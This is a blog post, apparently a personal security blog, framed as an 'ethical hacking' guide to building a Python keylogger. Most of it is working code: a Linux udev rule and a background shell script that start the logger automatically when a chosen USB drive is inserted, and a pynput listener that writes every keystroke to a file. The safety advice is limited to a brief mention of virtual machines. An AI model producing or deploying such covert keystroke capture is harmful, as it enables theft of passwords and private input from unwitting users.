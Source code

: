 ```yaml
---
title: >-
  Building a Python Keylogger: A Security Researcher’s development to
  Understanding Keystroke Logging
date: '2024-09-24'
author: Bhaskar
categories:
  - cybersecurity
  - ethical hacking
  - python programming
  - keylogging
  - security research
tags:
  - Keylogging
  - Python Programming
  - Cybersecurity
  - Security Research
  - Ethical Hacking
  - Python Scripts
  - Keystroke Logging
  - Security Tools
  - Penetration Testing
  - Educational Purposes
description: >-
  A step-by-step writeup to building a Python-based keylogger, designed for
  ethical security researchers to understand how keystroke logging works, and
  best practices for staying within legal boundaries.
images:
  - 'https://i.ibb.co/8cQfMsT/Whats-App-Image-2024-09-25-at-19-00-45.jpg'
featured: true
---
```


### Setting up USB Autorun (for testing):
1. **Windows**: You would need an `autorun.inf` file on the USB, but keep in mind this is typically disabled by default for security.
   
2. **Linux/macOS**: You can set up a udev rule on Linux that triggers a script when a USB drive is inserted.

Here’s an example of how you might trigger your Python script on Linux when a USB drive is inserted using **udev rules**.

### Steps for Linux Setup:

1. **Create udev rule**:
   First, create a udev rule to detect the USB drive and execute the Python script.

   Create the file `/etc/udev/rules.d/99-usb-keylogger.rules`:

   ```bash
   sudo nano /etc/udev/rules.d/99-usb-keylogger.rules
   ```

   Add the following content:

   ```bash
   ACTION=="add", ATTRS{idVendor}=="XXXX", ATTRS{idProduct}=="YYYY", RUN+="/path/to/keylogger.sh"
   ```

   Replace `XXXX` and `YYYY` with the actual vendor ID and product ID of your USB. You can find them by running `lsusb` after inserting the USB.

2. **Create a shell script** to run the Python keylogger:

   Save this file as `keylogger.sh` in `/path/to/keylogger.sh` (make sure the path matches the udev rule):

   ```bash
   #!/bin/bash
   python3 /path/to/keylogger.py &
   ```

   Make the script executable:

   ```bash
   chmod +x /path/to/keylogger.sh
   ```

3. **Test**: When you plug in the USB drive, the `keylogger.sh` script should be triggered, which in turn starts the Python keylogger.

### Python Keylogger (Same as Above):

```python
from pynput.keyboard import Key, Listener

log_file = "/path/to/keystrokes.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f" [{key}] ")

def on_release(key):
    if key == Key.esc:
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

<a href="https://ibb.co/56C0651"><img src="https://i.ibb.co/80GC0jm/Whats-App-Image-2024-09-25-at-19-00-23.jpg" alt="Whats-App-Image-2024-09-25-at-19-00-23" border="0"></a>

### Testing Environment
To safely test these kinds of setups:
- **Use a virtual machine**: This ensures that any experiments are isolated and won’t affect your main system.
- **Have clear logs**: Log all activity to better understand the behavior and outcomes.
